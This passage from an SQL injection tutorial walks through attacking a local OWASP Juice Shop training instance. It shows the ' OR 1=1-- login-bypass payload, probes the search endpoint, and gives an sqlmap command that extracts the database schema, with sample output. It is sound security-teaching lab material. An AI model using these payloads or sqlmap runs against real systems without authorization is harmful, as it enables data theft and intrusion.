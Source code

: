 The important part of this is the payload. For [an interesting reason](https://medium.com/@christophelimpalair/bypass-admin-login-with-sql-injections-sqlmap-bb60d447a1e2) it's using OR NOT instead of OR, so remove the NOT to make it valid and suddenly it found almost the exact same query as `' OR 1=1--`.

This isn't very useful, we already knew to try `' OR 1=1--`. So let's try it on something more useful.

#### Search

Open up your local version of Juice Shop in a new tab, and then search something. It might not show in the network tab if you use the same tab.

Here's what the search request looks like in LibreWolf:
![Juice Shop search request](../../../../assets/sql-injection/SearchHeader.png)

This time it's a GET request, which makes this whole process so much easier.

First just check out what's at `http://localhost:3000/rest/products/search?q=test` in your browser. It's just a JSON array of products with the word test in them.

Here's what it looks like in LibreWolf:
![Juice Shop search request](../../../../assets/sql-injection/SearchJSON.png)

All in all, this isn't very useful. We could have just searched "" and gotten this all on the regular page.

Let's try getting the database schema.

### Schema

The schema is the structure of the database, including its tables, columns, and relationships.  
It is how you know of all of the different types of data in the database.

To get the schema, use `--schema` with sqlmap.  
It's very slow to get the schema so it's best to use `--threads` and then the amount of threads you want to use to speed it up.

```bash
sqlmap -u "http://localhost:3000/rest/products/search?q=test" --level 5 --risk 3 --schema --threads 3 --dbms SQLite --batch
```

This is going to take a while, so go make a hot chocolate or something.

When it's done, it'll tell you where in your file system it saved the schema.

Here's what I got:

```text
back-end DBMS: SQLite
Database: <current>
Table: Memories
[6 columns]
+-----------+----------+
| Column    | Type     |
+-----------+----------+
| caption   | VARCHAR  |
| createdAt | DATETIME |
| id        | INTEGER  |
| imagePath | VARCHAR  |
| updatedAt | DATETIME |
| UserId    | INTEGER  |
+-----------+----------+
```
